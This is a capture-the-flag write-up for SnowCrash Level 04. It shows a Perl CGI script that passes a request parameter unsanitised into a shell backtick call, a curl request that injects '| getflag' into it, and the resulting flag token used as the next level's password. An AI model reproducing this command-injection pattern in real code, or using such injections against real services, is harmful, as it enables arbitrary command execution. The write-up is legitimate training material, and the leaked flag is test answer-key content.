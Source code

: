 # Level 04

- We login as user level04.
```
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

- Let's `cat ./level04.pl`:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```


- The script appears to be designed to be executed by a [CGI](https://en.wikipedia.org/wiki/Common_Gateway_Interface) through a service listening on localhost through port 4747.
It calls the `x()` function with the parameter `x` retrieved from the CGI. The function calls `echo` with the parameter it receives.
Therefore, if the parameter `x` is `| getflag`, this script will then execute `echo | getflag`.
```
level04@SnowCrash:~$ netstat -tuln | grep 4747
tcp6       0      0 :::4747                 :::*                    LISTEN
```


- There is indeed a service listening on all addresses through port 4747.
```
level04@SnowCrash:~$ curl -X POST -d "x=| getflag" http://localhost:4747
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

```
level04@SnowCrash:~$ su level05
Password:ne2searoevaevoem4ov4ar8ap
level05@SnowCrash:~$
```